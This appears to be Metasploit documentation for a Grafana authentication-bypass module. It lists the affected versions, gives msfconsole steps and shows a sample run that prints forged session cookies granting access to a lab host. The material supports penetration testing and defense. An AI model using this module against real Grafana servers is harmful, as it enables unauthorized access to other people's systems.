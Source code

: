 ## Vulnerable Application

The following list is a list of vulnerable versions of Grafana:

  1.  2.x 
  2.  3.x
  3.  4.x befroe 4.6.4
  4.  5.x before 5.2.3

## Verification Steps

  1. Start msfconsole
  2. Do: ``use auxiliary/admin/http/grafana_auth_bypass``
  3. Do: ``set username <username>`` or ``set cookie <cookie>`` 
  5. Do: ``set version``
  6. Do: ``set rhosts``
  7. Do: ``set rport``
  8. Do: ``run``

## Scenarios

  Example run against Grafana 3.x with username admin:

```
msf5 > use auxiliary/admin/http/grafana_auth_bypass 
msf5 auxiliary(admin/http/grafana_auth_bypass) > show options 

Module options (auxiliary/admin/http/grafana_auth_bypass):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   BASEURL   /                no        Base URL of grafana instance
   COOKIE                     no        Decrypt captured cookie
   RHOSTS    192.168.202.3    yes       Address of target
   RPORT     3000             yes       Port of target
   THREADS   1                yes       The number of concurrent threads
   USERNAME  Administrator    no        Valid username
   VERSION   5                yes       Grafana version

msf5 auxiliary(admin/http/grafana_auth_bypass) > set RHOSTS 192.168.202.3
RHOSTS => 192.168.202.3
msf5 auxiliary(admin/http/grafana_auth_bypass) > set USERNAME Administrator
USERNAME => Administrator
msf5 auxiliary(admin/http/grafana_auth_bypass) > run

[*] Running for 192.168.202.3...
[+] Encrypted remember cookie: 1bedc565c40b58307afa4672efd72d3c37f02684c2deb0ce0b55594cbce337fc90625356dc232e998f
[+] Set following cookies to get access to the grafana instance.
[+] grafana_user=Administrator;
[+] grafana_remember=a232b98b9365d3d8f7ce253adfb9779f1114131a68cc8cbb4a53ee6f5cb71acfbe25773e95db051021;
[+] grafana_sess=4ecdc0c13ebca229;
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
